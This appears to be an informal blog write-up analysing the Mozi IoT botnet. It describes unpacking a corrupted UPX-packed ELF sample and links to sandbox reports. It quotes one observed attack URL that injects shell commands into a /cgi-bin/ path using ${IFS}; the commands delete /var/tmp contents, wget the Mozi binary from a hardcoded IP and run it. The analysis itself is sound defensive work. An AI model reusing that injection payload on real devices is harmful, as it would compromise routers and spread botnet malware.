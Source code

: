 ```yaml
---
title: Mozi Malware Analysis
date: 2021-03-14 10:02:03 +0530
categories: [Malware analysis]
tags: [malwareanalysis]     # TAG names should always be lowercase
comments: false
---
```


The Mozi botnet, a peer-2-peer (P2P) malware known previously for taking over Netgear, D-Link and Huawei routers, has swollen in size to account for 90 percent of observed traffic flowing to and from all internet of things (IoT) devices, according to researchers.

Once it cracks a device, the Mozi botnet attempts to bind local UDP port 14737, and it finds and kills processes that use ports 1536 and 5888. Its code contains hardcoded distributed hash table (DHT) public nodes, which are then used to join the botnet’s P2P network. DHT is a distributed system that provides a lookup service allowing P2P nodes to find and communicate with each other.

We found some malicious  URL endpoints recently. So lets analyze them ...

Endpoint : 
url="/cgi-bin/;cd${IFS}/var/tmp;rm${IFS}-rf${IFS}*;${IFS}wget${IFS}http://125.43.125.98:55103/Mozi.m;${IFS}sh${IFS}/var/tmp/Mozi.m"


ANALYZING :
Cool so the URL is trying to download something
Lets check the IP then :

![Desktop View](/images/mozianalysis/reputationanalysis.png){: .normal}

The IP is clean so lets see what it was downloading.
Time for Kali!

![Desktop View](/images/mozianalysis/kalifiledownload.png){: .normal}

Okay so the file is still hosted and it is an ELF file !! cool cool
Lets upload this file to virustotal and see

![Desktop View](/images/mozianalysis/fileanalysis.png){: .normal}

Damn fun lets dig then
So I ran strings on the file and I got this

![Desktop View](/images/mozianalysis/stringsdefault.png){: .normal}

UPX ?
Google it ….
 It is a packer …. Lets download and unpack then ….

![Desktop View](/images/mozianalysis/unpackererror.png){: .normal}

Hmm corrupted!
Similar resource : Corrupted UPX Packed ELF Repair – Threat Analysis (vcodispot.com)
Changed some HEX values using hexedit [read the resource]

![Desktop View](/images/mozianalysis/malwaresuccess.png){: .normal}

Voila! Unpacked

Lets do strings again!

![Desktop View](/images/mozianalysis/telnetsessions.png){: .normal}

It is doing some telnet stuff

![Desktop View](/images/mozianalysis/iptables.png){: .normal}

Some IP table stuff

![Desktop View](/images/mozianalysis/webstuff.png){: .normal}

Also some web stuff
COOL COOL COOL!!!

Okay so for additional information you can just visit this link : 
<a href="https://www.joesandbox.com/analysis/222545/0/html">Automated Malware Analysis Report for Mozi.m - Generated by Joe Sandbox</a>
<a href="https://securityintelligence.com/posts/botnet-attack-mozi-mozied-into-town/">A New Botnet Attack Just Mozied Into Town (securityintelligence.com)</a>
